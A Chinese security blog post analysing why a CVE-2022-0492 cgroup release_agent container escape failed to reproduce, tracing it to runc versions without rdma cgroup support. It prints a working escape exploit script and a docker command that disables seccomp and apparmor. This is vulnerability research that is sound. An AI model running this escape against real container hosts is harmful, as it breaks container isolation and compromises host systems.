

---

tags: Cloud Native Security News, CVE-2022-0492
version: v0.1.1

---

## CVE-2022-0492导致的容器逃逸无法复现原因分析

### 前言
> 漏洞原理：当容器有 `CAP_SYS_ADMIN` 权限时，我们可以通过 cgroup v1 的 `notify_on_release` 机制进行容器逃逸。CVE-2022-0492 则是 Linux Capability 没有校验当前用户命名空间是否为容器创时命名空间，就算启动容器时**没有赋予 CAP_SYS_ADMIN** 权限，导致我们可以利用 `unshare` 创建新的新的命名空间时拥有所有 Linux Capability（当然这个和 uid 映射一样，非真正 root 的 Linux Capability），从而利用 `CAP_SYS_ADMIN` 的逃逸姿势进行容器逃逸。
>
详情可戳 👇 

https://blog.csdn.net/Breeze_CAT/article/details/123427680


但我在复现的时候，复现不了

容器启动命令（当然在 k8s 下也试过部署Pod了）

```bash
#关闭所有安全防护启动docker
docker run --rm -it -h cve --name cve --security-opt="seccomp=unconfined" --security-opt="apparmor=unconfined" ubuntu:20.04 /bin/bash
```

利用 exp（这里先说下，这个 exp 是没问题的）

```bash
unshare -UrmC --propagation=unchanged bash
mkdir /mnt/cgroup
mount -t cgroup -o rdma cgroup /mnt/cgroup
mkdir /mnt/cgroup/x
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo 1 > /mnt/cgroup/x/notify_on_release
touch /cmd
echo '#!/bin/sh' > /cmd
echo "ps -ef >> $host_path/result"  >> /cmd
chmod 777 /cmd
echo "$host_path/cmd" > /mnt/cgroup/release_agent
sh -c "echo \$\$ >  /mnt/cgroup/x/cgroup.procs"
```

但会在写 release_agent 的时候出现

```bash
bash: /mnt/cgroup/release_agent: Permission denied
```

### 问题分析
当然这个cve导致的容器逃逸是有一定限制的，但我验证过了，都满足

1. root 容器，允许 unprivileged user namespaces
2. 没有 apparmor selinux seccomp （不然 unshare 不了）
3. 使用 cgroup v1
4. Linux内核 < 5.17.3-rc3 （当然有的版本的小版本会修复，具体影响范围可以看 [https://nvd.nist.gov/vuln/detail/CVE-2022-0492](https://nvd.nist.gov/vuln/detail/CVE-2022-0492)）

看网上文章，最近可以复现成功的大多都是通过 `--cap-add=SYS_ADMIN` docker 启动时加 `SYS_ADMIN` …. 我寻思，都加 `SYS_ADMIN` ，这和 CVE-2022-0492 有啥关系….

然后我开始尝试更换Linux内核版本，在想会不会是官方内核范围描述不清，然后我尝试了包括，但不局限于

- 5.8.0-050800rc1-generic
- 5.15.0-78-generic
- 4.15.0-213-generic
- 5.13.0-19-generic (ubuntu21.10 用的cgroupv2)
- 5.4.0-42-generic(ubuntu20.04.1)

都不行

到这里，想到官方给的内核范围应该没问题，我去看我复现几个版本的代码，确实没引入这个 patch

然后就搁置了一段时间，直到看到 h4ckm310n 师傅的文章

[https://github.com/h4ckm310n/Container-Vulnerability-Exploit/tree/main/CVE-2022-0492](https://github.com/h4ckm310n/Container-Vulnerability-Exploit/tree/main/CVE-2022-0492)

不过偷懒了，apt 安装没文中 1.5.10-1版本，就apt装了个更低的版本，1.3.3-0ubuntu2。还是复现失败了，后面发邮件请教了下 h4ckm310n 师傅：看下进入容器之后`cat /proc/self/cgroup`，看看 `rdma` 是不是挂载到 `/`，而不是 `/docker/xxxxx`。确实确实如 h4ckm310n 师傅所说。

后面不偷懒了，直接找了 [containerd 1.5.10-1](https://download.docker.com/linux/ubuntu/dists/focal/pool/stable/amd64/) 一样的版本，然后用，文章开始的利用 EXP，果然可以利用成功了，并且进入容器后 `rdma` 确实挂载到 `/` 了。



按理说文章到这里就应该结束了，毕竟复现成功了。但仔细思考一下，这和 `containerd` 的版本有啥关系呢？

这是两个不同 `containerd` 版本的目录树，其中 1.5.11 可复现，1.6.4 不行

`tree containerd.io_1.5.11-1_amd64/`

```bash
containerd.io_1.5.11-1_amd64/
├── _gpgbuilder
├── control
│   ├── conffiles
│   ├── control
│   ├── md5sums
│   ├── postinst
│   ├── postrm
│   └── prerm
├── control.tar
├── control.tar.xz
├── data
│   ├── etc
│   │   └── containerd
│   │       └── config.toml
│   ├── lib
│   │   └── systemd
│   │       └── system
│   │           └── containerd.service
│   └── usr
│       ├── bin
│       │   ├── containerd
│       │   ├── containerd-shim
│       │   ├── containerd-shim-runc-v1
│       │   ├── containerd-shim-runc-v2
│       │   ├── ctr
│       │   └── runc
│       └── share
│           ├── doc
│           │   └── containerd.io
│           │       ├── changelog.Debian.gz
│           │       └── copyright
│           └── man
│               ├── man5
│               │   └── containerd-config.toml.5.gz
│               └── man8
│                   ├── containerd-config.8.gz
│                   ├── containerd.8.gz
│                   └── ctr.8.gz
├── data.tar
└── data.tar.xz

16 directories, 25 files
```

`tree containerd.io_1.6.4-1_amd64/`

```bash
containerd.io_1.6.4-1_amd64/
├── _gpgbuilder
├── control
│   ├── conffiles
│   ├── control
│   ├── md5sums
│   ├── postinst
│   ├── postrm
│   └── prerm
├── control.tar
├── control.tar.xz
├── data
│   ├── etc
│   │   └── containerd
│   │       └── config.toml
│   ├── lib
│   │   └── systemd
│   │       └── system
│   │           └── containerd.service
│   └── usr
│       ├── bin
│       │   ├── containerd
│       │   ├── containerd-shim
│       │   ├── containerd-shim-runc-v1
│       │   ├── containerd-shim-runc-v2
│       │   ├── ctr
│       │   └── runc
│       └── share
│           ├── doc
│           │   └── containerd.io
│           │       ├── changelog.Debian.gz
│           │       └── copyright
│           └── man
│               ├── man5
│               │   └── containerd-config.toml.5.gz
│               └── man8
│                   ├── containerd-config.8.gz
│                   ├── containerd.8.gz
│                   └── ctr.8.gz
├── data.tar
└── data.tar.xz

16 directories, 25 files
```

通过 diff 发现 ubuntu 的 `containerd` 包，主要有几个不同的地方，除了 `containerd` 的版本，和一些其他配置文件（看了下不是啥关键的东西），包里还有 `runc`。

`containerd.io_1.5.11` 里 runc 的版本

```bash
runc -v
runc version 1.0.3
commit: v1.0.3-0-gf46b6ba
spec: 1.0.2-dev
go: go1.17.8
libseccomp: 2.5.1
```

`containerd.io_1.6.4` 里 runc 的版本

```bash
./runc -v
runc version 1.1.0-rc.1
commit: v1.1.0-rc.1-0-g55df1fc4
spec: 1.0.2-dev
go: go1.17.1
libseccomp: 2.5.3
```

这时我继续用 `containerd 1.5.11` ，但是把 `runc` 替换成了 `containerd 1.6.4` 版本的 `runc`，因为运行了一下两个 `containerd` 里的 `runc`，他们版本不一样。结果，漏洞复现失败了。

然后我彻底卸载 `containerd 1.5.11`，安装 `containerd 1.6.4`，这时用的是 `containerd 1.5.11` 的 `runc`，然后就复现成功了！甚至我安装更新版本的 `containerd`，把 `runc` 用旧的，依然复现成功。

看了一下 `runc 1.1.0-rc.1` 干了啥

[https://github.com/opencontainers/runc/releases/tag/v1.1.0-rc.1](https://github.com/opencontainers/runc/releases/tag/v1.1.0-rc.1)  - **Add support for RDMA cgroup added in Linux 4.11.** 

到这里比较清晰了，因为之前 `runc` 版本不支持 `rdma`，导致 `mount` 进去就是直接 `mount /` 根目录了。这时我们更新内核为非 CVE-2022-0492 影响版本 `5.4.180-0504180-generic`，虽然漏洞复现失败（且报错和 Linux 层的报错事符合的），但是 `rdma` 还是 `mount /` 根目录，这里还是有问题的，但这里还可以怎么利用，有点想不到了。


总结一下，CVE-2022-0492的漏洞利用前提除了一开始提到的前面4点，还有第5点

1. **root** 容器，允许 **unprivileged user namespaces**
2. 没有 **apparmor selinux seccomp** （不然 unshare 不了）
3. 使用 **cgroup v1**
4. **Linux内核 < 5.17.3-rc3** （当然有的版本的小版本会修复，具体影响范围可以看 [https://nvd.nist.gov/vuln/detail/CVE-2022-0492](https://nvd.nist.gov/vuln/detail/CVE-2022-0492)）
5. **runc < 1.1.0-rc.1** 版本（除了影响版本的runc，各个云厂商自研的系统里还有很多自研的cgroup subsystem可以利用，会使得容器内有 top level cgroup subsystem 可挂载，那就算用高版本runc，漏洞仍存在）

同时，这里引发了启发了我一个关于runc的漏洞挖掘思路，即当Linux出现新的cgroup子系统，但runc没有及时适配，那就很有可能存在一些问题。虽然现在cgroup在新内核都上v2了，v2默认都是 cgroup子系统默认ro（只读），所以又不是特别会导致问题，但算一个可以关注的点

----

本文发布已获得"云原生安全资讯"项目授权, 同步发布于以下平台

* github: [https://github.com/cloud-native-security-news/cloud-native-security-news](https://github.com/cloud-native-security-news/cloud-native-security-news)
* blog: [tari Blog](https://tari.moe)

欢迎加入 "云原生安全资讯"项目 👏 阅读、学习和总结云原生安全相关资讯 